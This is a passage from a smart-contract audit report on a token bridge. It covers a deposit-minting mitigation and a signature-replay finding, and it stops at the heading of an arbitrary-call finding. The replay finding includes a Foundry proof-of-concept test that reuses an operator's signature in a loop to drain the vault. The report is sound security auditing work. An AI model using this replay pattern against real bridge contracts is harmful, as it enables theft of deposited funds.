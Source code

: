 **Recommended mitigation**

When passing parameters in the deposit, use `msg.sender` instead of the address `from` to avoid unlimited minting on L2.

### [H-3] Signature replay found

**Description**

Users who want to withdraw tokens from the bridge can call the sendToL1 function, or the wrapper withdrawTokensToL1 function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

**Proof of Concepts**

```javascript
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```

**Recommended mitigation**

Consider redesigning the withdrawal mechanism so that it includes replay protection.

### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

**Description**
